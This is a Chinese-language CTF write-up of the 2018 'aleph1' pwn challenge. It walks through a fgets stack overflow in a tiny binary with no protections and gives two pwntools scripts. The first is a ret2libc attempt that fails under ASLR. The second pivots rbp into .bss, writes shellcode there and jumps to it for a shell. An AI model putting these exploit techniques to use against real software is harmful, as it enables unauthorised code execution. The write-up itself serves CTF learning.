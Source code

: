 ```yaml
---
title: 2018 铁人三项赛 aleph1 Writeup
date: 2018-10-29 11:45:08
tags: [pwn]
categories: Exploit
keywords: [pwn, CTF]
---
```



# 0x01 漏洞位置
程序很简单，调用 fgets() 从 stdin 中读取 1337 bytes 数据到 yolo 数组中，由于 yolo 内存空间为 1024 bytes，但输入数据长度大于 1024 时会导致栈溢出。
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char yolo[1024]; // [rsp+0h] [rbp-400h]

  fgets(yolo, 1337, _bss_start);
  return 0;
}
```

# 0x02. 漏洞利用
首先，检查程序开启的安全机制，发现没有开任何安全机制。
```python
➜  aleph checksec aleph1
[*] '/home/lc/t3pwn/aleph/aleph1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
## 1. 第一次尝试
由于题目给了 libc 文件，所以可以尝试 ret2libc 进行利用。
```python
#!/usr/bin/env python

from pwn import *
context.log_level = 'debug'

p = process(['./aleph1'], env = {"LD_PRELOAD":"./libc64"})
#p = remote("202.1.14.12", 40001)
system_add = p64(0x7ffff7a52390)
poprdi_add = p64(0x0000000000400663)
bash_add = p64(0x7ffff7b99d57)

raw_input("send")
payload = 1032* "A" +  poprdi_add + bash_add + system_add

p.sendline(payload)
p.interactive()
```
但很不幸，服务器开启了 ASLR，libc 加载基址的随机化会使得 libc 中 system 函数地址和 "/bin/sh" 字符串地址发生变化，导致利用失败。

## 2. 第二次尝试
由于开启了 ASLR，利用过程就不能依赖堆栈以及内存中共享库的地址。程序汇编代码如下：
```C
.text:00000000004005CA                 push    rbp
.text:00000000004005CB                 mov     rbp, rsp
.text:00000000004005CE                 sub     rsp, 400h
.text:00000000004005D5 ; 4:   fgets(yolo, 1337, _bss_start);
.text:00000000004005D5                 mov     rdx, cs:__bss_start ; stream
.text:00000000004005DC                 lea     rax, [rbp+yolo]
.text:00000000004005E3                 mov     esi, 539h       ; n
.text:00000000004005E8                 mov     rdi, rax        ; s
.text:00000000004005EB                 call    _fgets
.text:00000000004005F0 ; 5:   return 0;
.text:00000000004005F0                 mov     eax, 0
.text:00000000004005F5                 leave
.text:00000000004005F6                 retn
                                        ...
.bss:0000000000601030 __bss_start     dq ?                    ; DATA XREF: LOAD:0000000000400350↑o
.bss:0000000000601030                                         ; deregister_tm_clones+1↑o ...
.bss:0000000000601030                                         ; Alternative name is '__TMC_END__'
.bss:0000000000601030                                         ; stdin@@GLIBC_2.2.5
.bss:0000000000601030                                         ; _edata
```
分析汇编代码后发现，通过两次输入可以把 shellcode 写入 .bss 段中，然后跳转到 .bss 段执行 shellcode，具体思路如下：
1. 利用 fgets() 写内存溢出，把 rbp 寄存器修改到 .bss 段的 0x601440(0x601030 + 0x400 + 0x10) 地址处，其中，0x400 为 yolo 的内存大小，偏移0x10 是为了不破坏 .bss 中 stdin 的值 ；同时，把返回地址覆盖为 0x4005D5，以便进行第二次调用 fgets() 进行写内存。
2. 利用第二次调用 fgets() 把 shellcode 写入 .bss 中，由于 rbp 被修改到 .bss 段的 0x601440，所以会把数据写入到 0x601040（ [rbp - 0x400] ）；同时，把返回地址覆盖为 shellcode 地址 0x601040。
3. 最终 ret 时跳转到 shellcode 执行。

利用脚本如下：
```python
#!/usr/bin/env python
from pwn import *

p = process("./aleph1")
context(os='linux', arch='amd64')

bss_start = 0x601030
rbp = bss_start + 0x400 + 0x10
ret_addr = 0x4005D5
payload1 = 1024*"A" + p64(rbp) + p64(ret_addr)
p.sendline(payload1)

shellcode = asm(shellcraft.sh())
sc_addr = bss_start + 0x10
payload2 = shellcode + (1024 + 8 - len(shellcode))*"A" + p64(sc_addr)
p.sendline(payload2)
p.interactive()
```


